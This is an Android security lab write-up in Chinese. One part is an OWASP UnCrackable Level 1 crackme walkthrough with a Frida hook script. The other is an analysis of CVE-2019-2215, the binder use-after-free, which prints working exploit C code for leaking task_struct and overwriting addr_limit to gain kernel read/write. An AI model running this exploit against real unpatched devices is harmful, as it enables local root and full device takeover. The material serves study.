# Android应用软件安全分析实例

## 实验内容
- [x] 完成[OWASP MSTG CTF uncrackme破解](#实例一owasp-mstg-ctf-uncrackmehttpsgithubcomowaspowasp-mstgtreemastercrackmes)
- [x] 完成[CVE-2019-2215漏洞分析与利用](#实例二cve-2019-2215漏洞分析与利用)

## 实验环境
- Mac OS Monterey
- Visual Studio Code 1.67.0
- APKLab v1.6.0
- Android Studio 2021.2.1 Patch 1

## 实例一：[OWASP MSTG CTF uncrackme](https://github.com/OWASP/owasp-mstg/tree/master/Crackmes)

### 1-安装并运行
- 将`UnCrackable-Level1.apk`安装到模拟器中的安卓设备
```bash
adb install UnCrackable-Level1.apk
```
- 运行软件后发现存在root检测</b>

- 两种破解思路
    - 关掉root权限
    - 绕过root检测

- 下述实验采用**绕过root监测**思路

### 2-反编译静态分析
- 使用`APKLab`工具进行反编译，查看Java代码

#### 2.1 uncrackable1.MainActivity分析
</b>
- 完整代码如下
```java
package sg.vantagepoint.uncrackable1;

import android.app.Activity;
import android.app.AlertDialog$Builder;
import android.app.AlertDialog;
import android.content.Context;
import android.content.DialogInterface$OnClickListener;
import android.content.DialogInterface;
import android.os.Bundle;
import android.view.View;
import sg.vantagepoint.a.b;
import sg.vantagepoint.a.c;

public class MainActivity extends Activity {
    public MainActivity() {
        super();
    }

    private void a(String arg4) {
        AlertDialog v0 = new AlertDialog$Builder(((Context)this)).create();
        v0.setTitle(((CharSequence)arg4));
        v0.setMessage("This is unacceptable. The app is now going to exit.");
        v0.setButton(-3, "OK", new DialogInterface$OnClickListener() {
            public void onClick(DialogInterface arg1, int arg2) {
                System.exit(0);
            }
        });
        v0.setCancelable(false);
        v0.show();
    }

    protected void onCreate(Bundle arg2) {
        if((c.a()) || (c.b()) || (c.c())) {
            this.a("Root detected!");
        }

        if(b.a(this.getApplicationContext())) {
            this.a("App is debuggable!");
        }

        super.onCreate(arg2);
        this.setContentView(0x7F030000);
    }

    public void verify(View arg4) {
        String v4 = this.findViewById(0x7F020001).getText().toString();
        AlertDialog v0 = new AlertDialog$Builder(((Context)this)).create();
        if(a.a(v4)) {
            v0.setTitle("Success!");
            v4 = "This is the correct secret.";
        }
        else {
            v0.setTitle("Nope...");
            v4 = "That\'s not it. Try again.";
        }

        v0.setMessage(((CharSequence)v4));
        v0.setButton(-3, "OK", new DialogInterface$OnClickListener() {
            public void onClick(DialogInterface arg1, int arg2) {
                arg1.dismiss();
            }
        });
        v0.show();
    }
}
```

- 分析知，`Mainactivity`首先运行`onCreate`函数
- 分析`onCreate`函数</b>
  - 如果c类中的a,b,c方法中有一个条件满足
  - 那么就会进入`MainActivity`类的a方法，并传入`"Root detected!"`字符串，即程序一打开时出现的情形。

#### 2.2 c类中的a、b、c方法分析
- 完整代码如下
```java
package sg.vantagepoint.a;

import android.os.Build;
import java.io.File;

public class c {
    public static boolean a() {
        String[] v0 = System.getenv("PATH").split(":");
        int v1 = v0.length;
        int v3;
        for(v3 = 0; v3 < v1; ++v3) {
            if(new File(v0[v3], "su").exists()) {
                return 1;
            }
        }

        return 0;
    }

    public static boolean b() {
        String v0 = Build.TAGS;
        if(v0 != null && (v0.contains("test-keys"))) {
            return 1;
        }

        return 0;
    }

    public static boolean c() {
        String[] v0 = new String[]{"/system/app/Superuser.apk", "/system/xbin/daemonsu", "/system/etc/init.d/99SuperSUDaemon", "/system/bin/.ext/.su", "/system/etc/.has_su_daemon", "/system/etc/.installed_su_daemon", "/dev/com.koushikdutta.superuser.daemon/"};
        int v1 = v0.length;
        int v3;
        for(v3 = 0; v3 < v1; ++v3) {
            if(new File(v0[v3]).exists()) {
                return 1;
            }
        }

        return 0;
    }
}

```
- 分析代码知，程序使用三种方法对root进行检测
  - a方法检测路径中是否存在`su`文件，如果存在,就判断为设备已经被root
  - b方法检查`Build.TAGS`中是否存在`test-keys`，如果存在就判断设备已经被root
  - c方法检测一系列文件，如果有一个被找到,就判断设备已经被root

#### 2.3 MainActivity.a方法分析
- 完整代码如下
```java
private void a(String arg4) {
        AlertDialog v0 = new AlertDialog$Builder(((Context)this)).create();
        v0.setTitle(((CharSequence)arg4));
        v0.setMessage("This is unacceptable. The app is now going to exit.");
        v0.setButton(-3, "OK", new DialogInterface$OnClickListener() {
            public void onClick(DialogInterface arg1, int arg2) {
                System.exit(0);
            }
        });
        v0.setCancelable(false);
        v0.show();
    }
```
- 调用了此方法后，函数会出弹框，并显示传入的字符串内容，点击OK后程序退出

### 3-绕过root检测
- 回到`onCreate`中，经过静态分析，有两种办法绕过root检测。

  1. 使用动态调试的方式，查看c类中a、b、c三个方法中哪一个方法返回了1，选择hook修改返回值或者修改smali代码重新打包，绕过root检测。
  2. 修改MainActivity.a函数，让其不执行System.exit(0)，而只是return void。需要修改smali代码并重新打包。

- 选择`方法2`进行绕过
#### 3.1 寻找smali代码的注入点
- 首先需要确定要修改的smali代码位于哪个文件里，主要针对含有匿名内部类的Java文件而言。`MainActivity`方法被反编译成`MainActivity.smali`、`MainActivity$ 1.smali`、`MainActivity$ 2.smali`。
- `MainActivity$ 1.smali`、`MainActivity$ 2.smali`这些都是匿名内部类的smali代码文件，由于没有名字，所以编译后只能用$XXX来区分。

- 对比smali文件Java代码找到注入点</b>
#### 3.2 smali代码注入
- 对smali代码作如下修改，这样一来，调用MainActivity.a方法后，点击确定也不会退出程序，就可以进行绕过了</b>
- 重新进行打包</b>
- 点击ok程序也没有退出，绕过成功</b>

### 4-寻找Flag
#### 4.1 寻找关键函数
- 寻找到关键函数，关注到verify函数，并且有Sucess提示。
- 关键在于a.a()内部，让其返回值为真即可
</b>

#### 4.2 a.a函数
```java
package sg.vantagepoint.uncrackable1;

import android.util.Base64;
import android.util.Log;

public class a {
    public static boolean a(String arg5) {
        byte[] v0_2;
        String v0 = "8d127684cbc37c17616d806cf50473cc";
        byte[] v1 = Base64.decode("5UJiFctbmgbDoLXmpL12mkno8HT4Lv8dlat8FxR2GOc=", 0);
        byte[] v2 = new byte[0];
        try {
            v0_2 = sg.vantagepoint.a.a.a(a.b(v0), v1);
        }
        catch(Exception v0_1) {
            Log.d("CodeCheck", "AES error:" + v0_1.getMessage());
            v0_2 = v2;
        }

        return arg5.equals(new String(v0_2));
    }

    public static byte[] b(String arg7) {
        int v0 = arg7.length();
        byte[] v1 = new byte[v0 / 2];
        int v2;
        for(v2 = 0; v2 < v0; v2 += 2) {
            v1[v2 / 2] = ((byte)((Character.digit(arg7.charAt(v2), 16) << 4) + Character.digit(arg7.charAt(v2 + 1), 16)));
        }

        return v1;
    }
}
```
- 函数内部实现主要由算法构成
- v1是字符串`5UJiFctbmgbDoLXmpL12mkno8HT4Lv8dlat8FxR2GOc=`进行base64解密后的`byte`数组。
- v0也是一个常量
- 此处关键在于`v0_2`，这个是由加密最密集的地方产生的数据，且也是最后和传入的arg5进行比较的

#### 4.3 vantagepoint.a函数
```java
package sg.vantagepoint.a;

import java.security.Key;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;

public class a {
    public static byte[] a(byte[] arg2, byte[] arg3) {
        SecretKeySpec v0 = new SecretKeySpec(arg2, "AES/ECB/PKCS7Padding");
        Cipher v2 = Cipher.getInstance("AES");
        v2.init(2, ((Key)v0));
        return v2.doFinal(arg3);
    }
}
```
- 此处方法有两个参数，分别为`arg2`和`arg3`。
- 首先使用`arg2`随机生成一个key秘钥，再使用秘钥对`arg3`进行AES进行对称加密，外部参数与加密后的值进行对比。
- 由于传入的v0、v1都是常量，因此需要hook此方法，把这个固定的加密返回值打印出来即可
- 具体[脚本](exploit.js)如下
```java
Java.perform(function(){
    //hook the target class 
    var aes = Java.use("sg.vantagepoint.a.a");

    //hook the function inside the class
    aes.a.implementation = function(var0, var1){
        //call itself
        var decrypt = this.a(var0,var1);
        var flag = "";

        for (var i =0; i < decrypt.length; i++){
            flag += String.fromCharCode(decrypt[i]);
        }
        console.log(flag);
        return decrypt;
    }
});
```
- 找到运行的apk名称</b>
- 执行如下命令
```bash
frida -U -f owap.mstg.uncrackable1 -l exploit.js --no-pause
```
> -U : 进入USB设备
-f : 代表指定应用程序文件
-l : 指定脚本
–no-pause : 在应用程序启动后，自动加载到主进程中去。

- 执行上述命令行后，模拟器会自动加载，在模拟器中任意输入得到如下结果
- 查看脚本打印</b>
- 脚本成功打印flag</b>

## 实例二：CVE-2019-2215漏洞分析与利用
### 0-漏洞简介
> 漏洞CVE-2019-2215由Google公司Project Zero小组发现，并被该公司的威胁分析小组（TAG）确认其已用于实际攻击中。TAG表示该漏洞利用可能跟一家出售漏洞和利用工具的以色列公司NSO有关，随后NSO集团发言人公开否认与该漏洞存在任何关系。
> 该漏洞实质是内核代码一处UAF漏洞，成功利用可以造成本地权限提升，并有可能完全控制用户设备。但要成功利用该漏洞，需要满足某些特定条件。
> 安卓开源项目（AOSP）一位发言人表示：“在安卓设备上，该漏洞的严重性很高，但它本身需要安装恶意应用程序以进行潜在利用。对于其它媒介向量，例如通过网络浏览器，需要附加额外的漏洞利用程序组成攻击链。

> 漏洞成因：使用了epoll的进程在调用BINDER_THREAD_EXIT结束binder线程时会释放binder_thread结构体，然后在程序退出或调用EPOLL_CTL_DEL时会遍历已释放结构体binder_thread中的wait链表进行链表删除操作。
> 问题在于，当程序退出或调用epoll的清理操作时，此时访问的wait链表位于已释放的binder_thread结构体中，uaf产生。如果在binder_thread释放后手动申请内存占位，那么在程序访问到wait链表时就会在手动申请的内存中操作，从而泄露信息。利用这些信息可以进一步达到内核任意地址读写甚至提权等操作。
#### 受影响机型
- Pixel 2 with Android 9 and Android 10 preview
- Huawei P20
- Xiaomi Redmi 5A
- Xiaomi Redmi Note 5
- Xiaomi A1
-  A3
- Moto Z3
- Oreo LG phones (run according to )
- Samsung S7, S8, S9
- Kernel 3.4.x and 3.18.x on Samsung Devices using Samsung Android and LineageOS
- It works on Pixel 1 and 2, but not Pixel 3 and 3a.
- It was patched in the Linux kernel >= 4.14 without a CVE
- accessible from inside the Chrome sandbox.

### 1-环境搭建
- 安装python2.7
```bash
sudo apt install python2.7-dev
```
- 下载gdb版本的源码
```bash
https://ftp.gnu.org/gnu/gdb/?C=M;O=D
```
- 编译python2.7支持的gdb
```bash
tar -xvzf gdb-8.2.tar.gz
sudo apt install texinfo

//安装gcc
sudo apt install build-essential
cd gdb-8.2
./configure --with-python=/usr/bin/python2.7
make
sudo make install
```
- 安装gef
```bash
echo source ~/.gdbinit-gef.py > ~/.gdbinit
```
- 下载payloads文件目录
```bash
git clone https://github.com/cloudfuzz/android-kernel-exploitation ~/workshop
```
- 在Android Studio中安装相应的SDK</b></b>

- 在Android Studio中安装相应的模拟器</b></b>
- 发现此时遇到报错，原因是/dev/kvm的权限问题，运行如下命令即可
```bash 
sudo apt install qemu-kvm

##whoami get the username
whomai
sudo adduser username kvm
sudo chown username -R /dev/kvm
grep kvm /etc/group
```
</b>
- 如图，搭建成功</b>

- 将adb和emulator命令加入环境变量
```bash
sudo vim ~/.bashrc
export PATH=$PATH:/Users/yunqi/Library/Android/Sdk/platform-tools
export PATH=$PATH:/Users/yunqi/Library/Android/Sdk/emulator
```
### 2-内核搭建
- 可参考官网文档来构建指定版本的内核:https://source.android.google.cn/setup/build/building-kernels?hl=zh-cn ，Android内核代码是通过repo来进行管理的，所以先要安装repo
```bash
mkdir ~/bin
PATH=~/bin:$PATH

curl https://storage.googleapis.com/git-repo-downloads/repo > ~/bin/repo
chmod a+x ~/bin/repo
sudo gedit ~/bin/repo
REPO_URL = 'https://gerrit.googlesource.com/git-repo'
#改为
REPO_URL = 'https://mirrors.tuna.tsinghua.edu.cn/git/git-repo'
```
- 同步Android内核源码
```bash
//先建立一个软连接
sudo ln -s /usr/bin/python3.6 /usr/bin/python

//身份认证
git config --global user.email youremail
git config --global user.name yourname

repo init --depth=1 -u https://aosp.tuna.tsinghua.edu.cn/kernel/manifest -b q-goldfish-android-goldfish-4.14-dev
cp ../custom-manifest/default.xml .repo/manifests/
repo sync -c --no-tags --no-clone-bundle -j`nproc`
```
</b>
- 编译没有patch过的漏洞版本
```bash
git apply ~/workshop/patch/cve-2019-2215.patch
```
- 根据实际的路径更新`~/workshop/build-configs/goldfish.x84_64.kasan`
```bash
System.map
"

DEFCONFIG=x86_64_ranchu_defconfig
POST_DEFCONFIG_CMDS="check_defconfig && update_kasan_config"

function update_kasan_config() {
    ${KERNEL_DIR}/scripts/config --file ${OUT_DIR}/.config \
         -e CONFIG_KASAN \
         -e CONFIG_KASAN_INLINE \
         -e CONFIG_TEST_KASAN \
         -e CONFIG_KCOV \
         -e CONFIG_SLUB \
         -e CONFIG_SLUB_DEBUG \
         -e CONFIG_SLUB_DEBUG_ON \
         -d CONFIG_SLUB_DEBUG_PANIC_ON \
         -d CONFIG_KASAN_OUTLINE \
         -d CONFIG_KERNEL_LZ4 \
         -d CONFIG_RANDOMIZE_BASE
    (cd ${OUT_DIR} && \
     make O=${OUT_DIR} $archsubarch CROSS_COMPILE=${CROSS_COMPILE} olddefconfig)
}
```
- 编译
```bash
BUILD_CONFIG=../build-configs/goldfish.x86_64.kasan build/build.sh
```
- 发现编译的时候出现`x86_64-linux-android-objdump not found`，只要将`x86_64-linux-android-objdump`目录加入到环境变量就行了。编译完成后，编译完成的内核是`bzImage`，调试时要用到`vmlinux`

</b>

### 3-漏洞复现
#### 3.1 crash复现
- 用编译好的内核来启动模拟器
```bash
emulator -show-kernel -no-snapshot -wipe-data -avd CVE-2019-2215 -kernel bzImage
```
- 在终端可以看到ksan初始化</b>
- 进入`exploit`目录，编译触发漏洞的代码`trigger.cpp`
```bash
NDK_ROOT=~/Android/Sdk/ndk/21.0.6113669 make build-trigger push-trigger
```
</b>
- 进入模拟器的shell，运行漏洞程序
```bash
adb shell
cd /data/local/tmp
./cve-2019-2215-trigger
```
- 成功触发漏洞，可以看出是UAF漏洞</b>
- 将`crash`日志的内容保存到本文文件中，利用`kasan_symbolize.py`对`crash`日志的内容进行简化，通过脚本可以将代码的相对偏移定位到内核源码的具体行数
```bash
cat crash_log.txt | python kasan_symbolize.py --linux=~/workshop/android-4.14-dev/out/kasan/ --strip=/home/fightingman/workshop/android-4.14-dev/goldfish/
```
</b>

#### 3.2 Root复现
- qemu启动镜像
```bash
emulator -show-kernel -no-snapshot -wipe-data -avd CVE-2019-2215 -kernel bzImage -qemu -s -S
```
</b>

- gdb连接qemu
```bash
gdb -quiet vmlinux -ex 'target remote :1234'
```
- 可以看到此时并没有root权限</b>
- 查看此时sh的进程号,得知为4783 </b>
- 通过gdb运行root脚本，给予`sh` root权限</b>
- 模拟器终端成功root</b>


### 4-漏洞成因分析
#### 4.1 epoll
> `epoll`是`select`和`poll`的升级版，应用程序中调用 `select()` 和 `poll()` 函数, 使进程进入睡眠之前,内核先检查设备驱动程序上有无对应事件的状态,此时可通过查看 `poll()` 函数的返回值。

- 能够在返回值上使用的宏变量有以下组合:
```
POLLIN, POLLPRI, POLLOUT, POLLERR, POLLHUP, POLLNVAL, POLLRDNORM, POLLRDBAND, POLLWRNORM, POLLWRBAND, POLLMSG, POLLREMOVE
```
- 使用最多的是以下几个组合:
```
· POLLIN | POLLRDNORM 表示可读 
· POLLOUT | POLLWRNORM 表示可写
. POLLERR 表示出错
```

#### 4.2 源码解读
##### 4.2.1 EPOLL_CTL_ADD
> `epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event)`;会调用`binder_poll`函数;`/dev/binder`绑定了一些系统调用，并且实现了`binder_poll`，`binder_poll`中对`binder_thread.wait`进行初始化，并调用`add_wait_queue`

- 具体调用链:`EPOLL_CTL_ADD`->`ep_insert()->binder_poll`函数，`binder_poll`函数会获取`binder_thread`结构，调用`poll_wait`.
  - `binder`设备实现的函数</b>
  - `/dev/binder`， 会有`binder_poll`的调用</b>
  - `binder_poll` 调用核心的函数 `poll_wait`</b>
  - `poll_wait()`调用`epq.pt.qproc`对应的回调函数`ep_ptable_queue_proc`执行`add_wait_queue`操作
  - 具体含义:
    - 设置`pwq`->`wait`的成员变量`func`唤醒回调函数为`ep_poll_callback`；
    - 将`ep_poll_callback`放入等待队列`whead`中，`ep_poll_callback`函数核心功能是当目标`fd`的就绪事件到来时，将`fd`对应的`epitem`实例添加到就绪队列
    - 当调用`epoll_wait()`时，内核会将就绪队列中的事件报告给应用。也就是`ep_insert`会调用到`ep_item_poll`->`binder_poll`->`poll_wait`。
- `binder_poll` 调用核心的函数为`poll_wait`</b>
- 主要结构体的初始化都发生在`ep_insert`->`binder_poll`中，`poll_wait`的第一个参数为`binder`的`fd`, 第二个参数为`binder_thread`的`wait`成员，成员情况如下：
```c
struct binder_thread {
    wait_queue_head_t wait;
}
struct __wait_queue_head {
    spinlock_t        lock;
    struct list_head    task_list;
};
struct __wait_queue {
    unsigned int        flags;
    void            *private;
    wait_queue_func_t    func;
    struct list_head    task_list;
};
```
</b>
- 调用一次`add_wait_queue`增加`wait_queue_t`</b>
- `insert`多次后如下</b>

##### 4.2.2 epoll_create函数
- 要想明白以上成员如何初始化，则需要了解`epoll_create`函数:
  - `open(“/dev/binder”)`进入内核调用`binder_open`分配`binder_proc`结构体;
  - `epoll_create`调用`ep_alloc`，对成员进行初始化
</b></b></b>

- 在链表中，有两种数据结构：`等待队列头（wait_queue_head_t）`和`等待队列项（wait_queue_t）`。等待队列头和等待队列项中都包含一个list_head类型,由于只需要对队列进行添加和删除操作，并不会修改其中的对象（等待队列项）一开始它是`INIT_LIST_HEAD(&q->task_list)`; `next`,`prev`指针分别指向自己。
  - 初始化时</b>
  - 对队列项的初始化`wait_queue_t`</b>

##### 4.2.3 epoll_create函数
- `epoll_ctl(epfd, EPOLL_CTL_DEL, fd, &event)`,函数会调用remove_wait_queue</b>
- 调用`remove_wait_queue`</b>
 
#### 4.3 heapspray的思想
- `readv`和`writev`堆喷。
- `Time of check time of use`，堆喷完，中间会有一个等待时机，阻塞住内核，可以绕过`check`，内核的数据通过漏洞已经被改写，然后再`use`，可以转化为任意地址读或者写。

复盘了内核的追溯过程后，回到poc本身，如果是`binder_thread`结构体的释放，并且是`uaf`，就会离不开堆喷
- 追溯内核的源码如下</b>
  - `readv`和`writev`内部会调用`kmalloc`分配空间，内部采用分散读`（scatter read）`和集合写`（gather write）`，内核都会调用到`do_loop_readv_writev`函数

- 此处参考参考[the-art-of-exploiting-unconventional-use-after-free-bugs-in-android-kernel](https://speakerdeck.com/retme7/the-art-of-exploiting-unconventional-use-after-free-bugs-in-android-kernel)</b></b></b>
- `ssize_t readv(int fd, const struct iovec *iov, int iovcnt); `
- `ssize_t writev(int fd, const struct iovec *iov, int iovcnt);`
- 也会再开始调用`rw_copy_check_uvector`，其源码如下：</b></b>
- 调用kmalloc分配大小，然后根据`iov_base`依次进行写入或者读取`iov_len`长度的内容
```c
struct iovec
{
    void __user *iov_base;    /* BSD uses caddr_t (1003.1g requires void *) */
    __kernel_size_t iov_len; /* Must be size_t (1003.1g) */
};
```
- 随着`readv`和`writev`调用`kmalloc`分配完相应的对象，并对之前free掉的`object`进行占位时，会等待`write`和`read`的调用，中间会有一个时机是触发漏洞的时机，以方便对`iov_base`的修改。

### 5-漏洞利用
#### 5.1 漏洞利用——任意地址写
##### 5.1.1 main函数
```c
int epfd;

void *dummy_page_4g_aligned;
unsigned long current_ptr;
int binder_fd;
int kernel_rw_pipe[2];

int main(void) {
  printf("Starting POC\n");
  //pin_to(0);

  dummy_page_4g_aligned = mmap((void*)0x100000000UL, 0x2000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
  if (dummy_page_4g_aligned != (void*)0x100000000UL)
    err(1, "mmap 4g aligned");
  if (pipe(kernel_rw_pipe)) err(1, "kernel_rw_pipe");

  binder_fd = open("/dev/binder", O_RDONLY);
  epfd = epoll_create(1000);
  leak_task_struct();
  clobber_addr_limit();

  setbuf(stdout, NULL);
  printf("should have stable kernel R/W now\n");
 ......
}
```
- 申请了一段大小0x2000的内存，赋值给了全局变量`dummy_page_4g_aligned`。这段内存在后面构造数据时会用到，作用是绕过`spin_lock_irqsave`检查。
- 打开`"/dev/binder"`，进行`epoll_create`操作，和`poc.c`中开始的操作一样，用于epoll的初始化
- 调用`leak_task_struct`泄露`task_struct`地址
- 调用`clobber_addr_limit`覆盖`addr_limit`实现内核任意地址读写
- 后面的操作就是利用得到的任意地址读写能力修改系统属性
主要关注点在`leak_task_struct`和`clobber_addr_limit`这两个函数，逐个分析

##### 5.1.2 泄露task_struct pointer
为了利用uaf，需要先用`writev`重新申请到`binder_thread`释放的空间，通过`EPOLL_CTL_DEL`调用`remove_wait_queue`将`wait`的地址泄露到之前申请的内存中。由于`task_struct`和`wait`都位于`binder_thread`中，所以计算偏移后就能得到`task_struct`的指针

- 利用`writev`申请到内核空间
  学习[readv和writev函数](https://blog.csdn.net/weixin_36750623/article/details/84579243)
  - 调用`writev`会经过`rw_copy_check_uvector`检查`writev`第二个参数`struct iovec`指针中的每一项是否位于用户空间中，检查通过后会将`writev`第二个参数复制到内核空间，并且就算之后`iov_base`不再指向用户空间也不会再检查。利用这两个特点，可以构造`iovec`结构体数组的大小与`binder_thread`相同或相近，复制时就有很大可能申请到`binder_thread`释放后的那块内存，然后利用`rw_copy_check_uvector`只检查一次的特性，泄露内核地址后可以读取内核空间的数据。

- 通过`remove_wait_queue`泄露`wait`地址
  - epoll在执行`EPOLL_CTL_DEL`时会调用`remove_wait_queue`清理`wait`链表，通过构造`iovec`结构体中的数据绕过`spin_lock_irqsave`检查后，进入到`__remove_wait_queue`函数中，相关函数如下：

```c
static inline void __remove_wait_queue(wait_queue_head_t *head, wait_queue_t *old)
{
    list_del(&old->task_list);
}
static inline void list_del(struct list_head *entry)
{
        __list_del(entry->prev, entry->next);
        entry->next = LIST_POISON1;
        entry->prev = LIST_POISON2;
}
static inline void __list_del(struct list_head * prev, struct list_head * next)
{
        next->prev = prev;
        WRITE_ONCE(prev->next, next);
}
```
- 可以看到调用链`：__remove_wait_queue` -> `list_del` -> `__list_del`

- `list_del`的参数entry就是待删除的`task_list`，经过了`__list_del`函数的操作后，entry指向的`task_list`就从wait链表中取出了，过程如图：</b>
- 而如果wait链表中只存在一项时（也就是head），就会变成这样</b>

- 此时`prev`和`next`指向了`head`自身，而`head`本身又是位于我们申请的`binder_thread`内存中，所以p和n泄露出了`head`的地址，也就是`binder_thread`中`wait`成员的地址。

- 分析poc
```c
// size of struct binder_thread : 408Bytes = 0x198
#define BINDER_THREAD_SZ 0x190
// use struct iovec to refill the freed binder_thread
// size of struct iovec is 16Bytes (64bit system)
#define IOVEC_ARRAY_SZ (BINDER_THREAD_SZ / 16) //25

// offset of wait_queue in binder_thread
#define WAITQUEUE_OFFSET 0xA0

// finger out offset of wait_queue in iovec array
#define IOVEC_INDX_FOR_WQ (WAITQUEUE_OFFSET / 16) //10

void leak_task_struct(void)
{
  struct epoll_event event = { .events = EPOLLIN };
  if (epoll_ctl(epfd, EPOLL_CTL_ADD, binder_fd, &event)) err(1, "epoll_add");

  struct iovec iovec_array[IOVEC_ARRAY_SZ];
  memset(iovec_array, 0, sizeof(iovec_array));

  iovec_array[IOVEC_INDX_FOR_WQ].iov_base = dummy_page_4g_aligned; /* spinlock in the low address half must be zero */
  iovec_array[IOVEC_INDX_FOR_WQ].iov_len = 0x1000; /* wq->task_list->next */
  iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_base = (void *)0xDEADBEEF; /* wq->task_list->prev */
  iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_len = 0x1000;

  int b;
  int pipefd[2];
  if (pipe(pipefd)) err(1, "pipe");
  if (fcntl(pipefd[0], F_SETPIPE_SZ, 0x1000) != 0x1000) err(1, "pipe size");
  static char page_buffer[0x1000];
  //if (write(pipefd[1], page_buffer, sizeof(page_buffer)) != sizeof(page_buffer)) err(1, "fill pipe");

  pid_t fork_ret = fork();
  if (fork_ret == -1) err(1, "fork");
  if (fork_ret == 0){
    /* Child process */
    prctl(PR_SET_PDEATHSIG, SIGKILL);
    sleep(2);
    printf("CHILD: Doing EPOLL_CTL_DEL.\n");
    epoll_ctl(epfd, EPOLL_CTL_DEL, binder_fd, &event);
    printf("CHILD: Finished EPOLL_CTL_DEL.\n");
    // first page: dummy data
    if (read(pipefd[0], page_buffer, sizeof(page_buffer)) != sizeof(page_buffer)) err(1, "read full pipe");
    close(pipefd[1]);
    printf("CHILD: Finished write to FIFO.\n");

    exit(0);
  }
  //printf("PARENT: Calling READV\n");
  ioctl(binder_fd, BINDER_THREAD_EXIT, NULL);
  b = writev(pipefd[1], iovec_array, IOVEC_ARRAY_SZ);
  printf("writev() returns 0x%x\n", (unsigned int)b);
  // second page: leaked data
  if (read(pipefd[0], page_buffer, sizeof(page_buffer)) != sizeof(page_buffer)) err(1, "read full pipe");
  //hexdump_memory((unsigned char *)page_buffer, sizeof(page_buffer));

  printf("PARENT: Finished calling READV\n");
  int status;
  if (wait(&status) != fork_ret) err(1, "wait");

  current_ptr = *(unsigned long *)(page_buffer + 0xe8);
  printf("current_ptr == 0x%lx\n", current_ptr);
}
```
- 进行`EPOLL_CTL_ADD`，添加对`binder_fd`的监听事件

- 初始化`iovec_array`，并填充构造数据

- 创建`pipe`并设定好`buffer`，用于之后父子进程通信

- fork生成子进程，子进程一开始sleep了两秒，所以继续看父进程

- 进行`BINDER_THREAD_EXIT`，此时`binder_thread`结构体已被释放

- 父进程调用`writev`（因为`writev`的特性，`binder_thread`被free的内存由`iovce_array[IOVEC_ARRAY_SZ]`占位），从`iovec_array`读取数据写入`pipefd[1]`，根据`iovec_array`构造的数据可知，从`iovec_array[9]`及以前的内容都为0，所以`writev`从`iovec_array[10]`开始读取，也就是将`dummy_page_4g_aligned`指向的0x1000大小的无用数据写入管道中，由于管道大小也为0x1000所以writev阻塞，此时转到子进程

- 由于`binder_thread`已被构造的数据占位，所以目前内存中的情况如下：</b>

- 此时子进程调用`EPOLL_CTL_DEL`触发uaf，进入`remove_wait_queue`后`dummy_page_4g_aligned`绕过了自旋锁检查，进行删除链表项的操作时`wait.task_list.next`和`wait.task_list.prev`都指向自身`(wait.task_list)`，所以现在`iovec_array[10].iov_len`和`iovec_array[11]`.`iov_base`都保存了泄露的地址

- 然后子进程进行read操作，将刚才父进程写入的无用数据读出以解除父进程的阻塞状态，子进程结束，转到父进程

- 父进程继续未完成的`writev`函数，将`iovec_array[11].iov_base`指向的0x1000大小的数据写入管道，而此时`iovec_array[11].iov_base`的数据已经在子进程中被覆盖为了泄露的wait地址，所以此时读取的是wait结构体之后的数据

- 调用read函数，将读取到的数据保存到`page_buffer`中

- 根据`task_struct`在`binder_thread`中的偏移，计算出`task_struct`的地址，保存在`current_ptr`中，函数结束

##### 5.1.3 覆盖addr_limit
```c
void clobber_addr_limit(void)
{
  struct epoll_event event = { .events = EPOLLIN };
  if (epoll_ctl(epfd, EPOLL_CTL_ADD, binder_fd, &event)) err(1, "epoll_add");

  struct iovec iovec_array[IOVEC_ARRAY_SZ];
  memset(iovec_array, 0, sizeof(iovec_array));

  unsigned long second_write_chunk[] = {
    1, /* iov_len */
    0xdeadbeef, /* iov_base (already used) */
    0x8 + 2 * 0x10, /* iov_len (already used) */
    current_ptr + 0x8, /* next iov_base (addr_limit) */
    8, /* next iov_len (sizeof(addr_limit)) */
    0xfffffffffffffffe /* value to write */
  };

  iovec_array[IOVEC_INDX_FOR_WQ].iov_base = dummy_page_4g_aligned; /* spinlock in the low address half must be zero */
  iovec_array[IOVEC_INDX_FOR_WQ].iov_len = 1; /* wq->task_list->next */
  iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_base = (void *)0xDEADBEEF; /* wq->task_list->prev */
  iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_len = 0x8 + 2 * 0x10; /* iov_len of previous, then this element and next element */
  iovec_array[IOVEC_INDX_FOR_WQ + 2].iov_base = (void *)0xBEEFDEAD;
  iovec_array[IOVEC_INDX_FOR_WQ + 2].iov_len = 8; /* should be correct from the start, kernel will sum up lengths when importing */

  int socks[2];
  if (socketpair(AF_UNIX, SOCK_STREAM, 0, socks)) err(1, "socketpair");
  if (write(socks[1], "X", 1) != 1) err(1, "write socket dummy byte");

  pid_t fork_ret = fork();
  if (fork_ret == -1) err(1, "fork");
  if (fork_ret == 0){
    /* Child process */
    prctl(PR_SET_PDEATHSIG, SIGKILL);
    sleep(2);
    printf("CHILD: Doing EPOLL_CTL_DEL.\n");
    epoll_ctl(epfd, EPOLL_CTL_DEL, binder_fd, &event);
    printf("CHILD: Finished EPOLL_CTL_DEL.\n");
    if (write(socks[1], second_write_chunk, sizeof(second_write_chunk)) != sizeof(second_write_chunk))
      err(1, "write second chunk to socket");
    exit(0);
  }
  ioctl(binder_fd, BINDER_THREAD_EXIT, NULL);
  struct msghdr msg = {
    .msg_iov = iovec_array,
    .msg_iovlen = IOVEC_ARRAY_SZ
  };
  printf("PARENT: Doing recvmsg.\n");
  int recvmsg_result = recvmsg(socks[0], &msg, MSG_WAITALL);
  printf("PARENT recvmsg() returns %d, expected %lu\n", recvmsg_result,
      (unsigned long)(iovec_array[IOVEC_INDX_FOR_WQ].iov_len +
      iovec_array[IOVEC_INDX_FOR_WQ + 1].iov_len +
      iovec_array[IOVEC_INDX_FOR_WQ + 2].iov_len));
}
```
- 进行`EPOLL_CTL_ADD`，相同的操作

- 初始化`iovec_array`，构造数据

- 初始化`second_write_chunk`，构造数据

- `socketpair`初始化socket，并向`socks[1]`写入1字节

    - 学习：[socketpair、recvmsg](https://blog.csdn.net/weixin_40039738/article/details/81095013)

- fork生成子进程，sleep(2)，看父进程

- 进行`BINDER_THREAD_EXIT`，此时`binder_thread`结构体已被释放

